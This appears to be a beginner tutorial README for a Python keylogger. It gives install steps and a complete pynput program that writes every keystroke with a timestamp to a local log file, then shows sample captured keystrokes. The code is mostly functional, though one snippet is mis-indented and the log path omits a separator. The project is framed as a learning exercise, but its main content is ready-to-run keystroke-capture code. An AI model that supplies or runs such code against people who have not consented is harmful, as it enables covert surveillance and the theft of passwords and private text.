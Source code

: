# KEYLOGGER
Simple Keylogger Project for Beginners.

STEP 1 : First Install the pynput library using the [pip install pynput] command.

STEP 2 : Now importing the required packages 

                                              from pynput.keyboard import Key, Listener
                                              import logging
                                              
STEP 3 : Now specify the path where log file will be stored. Here log file inculdes all the keystrokes the user in entering after running the program.

                                              log_dir = r"E:\courses\Keylogger"
                                              logging.basicConfig(filename = (log_dir + "keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
                                                   
STEP 4 : Now in the last step create Listner instance and define the on_press() in it and join it with the main program.

                                              with Listener(on_press=on_press) as listener:
                                              listener.join()
                                              
The Final Program should look like this :-> 

                                            import pynput
                                            from pynput.keyboard import Key, Listener
                                            import logging
                                            log_dir = r"E:\courses\Keylogger"
                                            logging.basicConfig(filename = (log_dir + "keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
                                            def on_press(key):
                                               logging.info(str(key))
                                            with Listener(on_press=on_press) as listener:
                                                listener.join()
                                                
STEP 5 : Now, to check the output of the program, run it and type some random keys and open your log file
2023-01-31 23:16:33,756: 'd'
2023-01-31 23:16:33,944: 'k'
2023-01-31 23:16:34,070: 'd'
2023-01-31 23:16:34,164: 'l'
2023-01-31 23:16:34,211: 's'
2023-01-31 23:16:34,507: 'l'
2023-01-31 23:16:34,574: 'e'
2023-01-31 23:16:34,628: 'k'
2023-01-31 23:16:34,875: 'k'
2023-01-31 23:16:35,093: 'c'
2023-01-31 23:16:35,143: 'm'
2023-01-31 23:16:35,279: 'd'
2023-01-31 23:16:35,477: 'f'
2023-01-31 23:16:35,509: 'c'
2023-01-31 23:16:35,619: 'e'
2023-01-31 23:16:42,167: Key.delete
